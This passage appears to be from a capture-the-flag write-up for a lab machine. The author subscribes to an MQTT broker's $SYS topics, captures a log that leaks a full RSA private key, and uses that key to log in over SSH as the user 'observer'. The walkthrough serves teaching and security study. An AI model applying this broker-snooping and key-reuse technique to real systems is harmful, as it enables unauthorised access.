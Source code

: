 
Remembering a trick from Hackvent, I switched the subscription to the System
Topics:

    
    
    client.subscribe(f"$SYS/#")
    

Once I did that, a bunch of new messages come through. There are all sorts of
channels, but once a minute, there are messages to
`$SYS/internal/firmware/signing` printed:

    
    
    [2020-01-24 07:10:28.936335] $SYS/internal/firmware/signing 0 Retrieving the key from aws instance
    [2020-01-24 07:10:29.938045] $SYS/internal/firmware/signing 0 Key retrieved..
    [2020-01-24 07:10:30.939596] $SYS/internal/firmware/signing 0 -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA7Gc/OjpFFvefFrbuO64wF8sNMy+/7miymSZsEI+y4pQyEUBA        
    R0JyfLk8f0SoriYk0clR/JmY+4mK0s7+FtPcmsvYgReiqmgESc/brt3hDGBuVUr4           
    et8twwy77KkjypPy4yB0ecQhXgtJNEcEFUj9DrOq70b3HKlfu4WzGwMpOsAAdeFT       
    +kXUsGy+Cp9rp3gS3qZ2UGUMsqcxCcKhn92azjFoZFMCP8g4bBXUgGp4CmFOtdvz           
    SM29st5P4Wqn0bHxupZ0ht8g30TJd7FNYRcQ7/wGzjvJzVBywCxirkhPnv8sQmdE       
    +UAakPZsfw16u5dDbz9JElNbBTvwO9chpYIs0QIDAQABAoIBAA5uqzSB1C/3xBWd 
    62NnWfZJ5i9mzd/fMnAZIWXNcA1XIMte0c3H57dnk6LtbSLcn0jTcpbqRaWtmvUN     
    wANiwcgNg9U1vS+MFB7xeqbtUszvoizA2/ScZW3P/DURimbWq3BkTdgVOjhElh6D             
    62LlRtW78EaVXYa5bGfFXM7cXYsBibg1+HOLon3Lrq42j1qTJHH/oDbZzAHTo6IO         
    91TvZVnms2fGYTdATIestpIRkfKr7lPkIAPsU7AeI5iAi1442Xv1NvGG5WPhNTFC            
    gw4R0V+96fOtYrqDaLiBeJTMRYp/eqYHXg4wyF9ZEfRhFFOrbLUHtUIvkFI0Ya/Y        
    QACn17UCgYEA/eI6xY4GwKxV1CvghL+aYBmqpD84FPXLzyEoofxctQwcLyqc5k5f            
    llga+8yZZyeWB/rWmOLSmT/41Z0j6an0bLPe0l9okX4j8WOSmO6TisD4WiFjdAos        
    JqiQej4Jch4fTJGegctyaOwsIVvP+hKRvYIwO9CKsaAgOQySlxQBOwMCgYEA7l+3  
    JloRxnCYYv+eO94sNJWAxAYrcPKP6nhFc2ReZEyrPxTezbbUlpAHf+gVJNVdetMt      
    ioLhQPUNCb3mpaoP0mUtTmpmkcLbi3W25xXfgTiX8e6ZWUmw+6t2uknttjti97dP
    QFwjZX6QPZu4ToNJczathY2+hREdxR5hR6WrJpsCgYEApmNIz0ZoiIepbHchGv8T 
    pp3Lpv9DuwDoBKSfo6HoBEOeiQ7ta0a8AKVXceTCOMfJ3Qr475PgH828QAtPiQj4
    hvFPPCKJPqkj10TBw/a/vXUAjtlI+7ja/K8GmQblW+P/8UeSUVBLeBYoSeiJIkRf  
    PYsAH4NqEkV2OM1TmS3kLI8CgYBne7AD+0gKMOlG2Re1f88LCPg8oT0MrJDjxlDI
    NoNv4YTaPtI21i9WKbLHyVYchnAtmS4FGqp1S6zcVM+jjb+OpBPWHgTnNIOg+Hpt         
    uaYs8AeupNl31LD7oMVLPDrxSLi/N5o1I4rOTfKKfGa31vD1DoCoIQ/brsGQyI6M     
    zxQNDwKBgQCBOLY8aLyv/Hi0l1Ve8Fur5bLQ4BwimY3TsJTFFwU4IDFQY78AczkK 
    /1i6dn3iKSmL75aVKgQ5pJHkPYiTWTRq2a/y8g/leCrvPDM19KB5Zr0Z1tCw5XCz
    iZHQGq04r9PMTAFTmaQfMzDy1Hfo8kZ/2y5+2+lC7wIlFMyYze8n8g==                 
    -----END RSA PRIVATE KEY-----  
    [2020-01-24 07:10:31.716263] $SYS/internal/firmware/signing 0 Verifying signing..
    [2020-01-24 07:10:32.717745] $SYS/internal/firmware/signing 0 Sent logs to apache server.
    

The script is getting a private SSH key ostensibly to get to AWS. I can
exploit this further to leak the root flag, which I’ll show in Beyond Root.

### SSH

That key works for SSH auth as observer:

    
    
    root@kali# ssh -i ~/id_rsa_player2_observer observer@10.10.10.170
    The authenticity of host '10.10.10.170 (10.10.10.170)' can't be established.
    ECDSA key fingerprint is SHA256:qViniZV2YfFht35q9ia5soHJyZCxtMjJoydi4tSHZJ0.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.170' (ECDSA) to the list of known hosts.
    Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.2.5-050205-generic x86_64)
    